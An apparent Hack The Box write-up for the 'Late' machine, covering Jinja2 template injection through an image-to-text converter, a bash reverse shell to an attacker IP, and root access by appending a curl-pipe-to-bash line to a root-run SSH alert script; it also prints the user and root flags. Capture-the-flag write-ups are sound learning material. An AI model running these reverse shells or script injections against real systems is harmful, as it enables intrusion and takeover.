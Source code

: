 ```yaml
---
title: "Late from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Late from HTB
`nmap`showed nothing unusual.
Go to site with `IP`and you will find `subdomain`trough link
add that to `/etc/hosts`
```
10.10.11.156 images.late.htb
```
Then go there and see that it's `img to text`converted
After trying some symbols trough `img` i discovered that site takes `{}`so it's an `ssti`
You will have to write `ssti`code for `Jinja2`, screenshot it (`would recomend WORD or LIBREOFFICE, set font to sans something`) and then use it.
![](/assets/images/Screenshot from 2024-08-16 21-00-44.png)
This should return
```bash
<p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

</p>
```
This means `ssti payload`worked
Now we'll have to get shell. Easiest way to do that is to create an `reverse-shell.sh`with commands:
```bash
#!/bin/bash
sh -i >&/dev/tcp/10.10.16.6/1235 0>&1
```
And `curl`it and then execute. It will should look something like this.
![](/assets/images/Screenshot from 2024-08-16 22-20-29.png)
```bash
rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.156] 41284
sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
svc_acc@late:~/app$
```
***
User Flag Is: dfb2cac259dc6fd1ecc098e338590e1a
***
Then search what files do you own `except /home and /proc directories`
```bash
find / -user svc_acc 2>/dev/null | grep -v '/proc\|/home'
/usr/local/sbin
/usr/local/sbin/ssh-alert.sh
/dev/pts/0
```
We'll need `ssh-alert.sh`, you are the owner of this file but can't change anything only add to it trough `echo >>`.
This code is executed when someone tries to connect to `ssh`and it is sent to `root`
So we'll have to add something to this code and when it gets executed we should get `root`
Obviously we'll need `id_rsa`find it in `/home/svc_acc/.ssh/id_rsa`save it and then
```bash
chmod 600 id_rsa
```
add this to code so when we connect we will get root trough `netcat`.
```bash
echo ' curl 10.10.16.6:8000/reverse-shell.sh | bash' >> ssh-alert.sh
```
It will give us `root connection`on new `reverse-shell` when this code is executed.
`simple python3 server should be running`
Go to `ssh`and then try to connect while `nc listener`should be on
```bash
nc -nvlp 1235
listening on [any] 1235 ...
conn![[Screenshot from 2024-08-16 22-48-02.png]]ect to [10.10.16.6] from (UNKNOWN) [10.10.11.156] 38904
bash: cannot set terminal process group (4712): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/#
```
***
Root Flag is: 77963c07bb1f90e5c73011efa9463c2e
***
![](/assets/images/Screenshot from 2024-08-16 22-48-02.png)

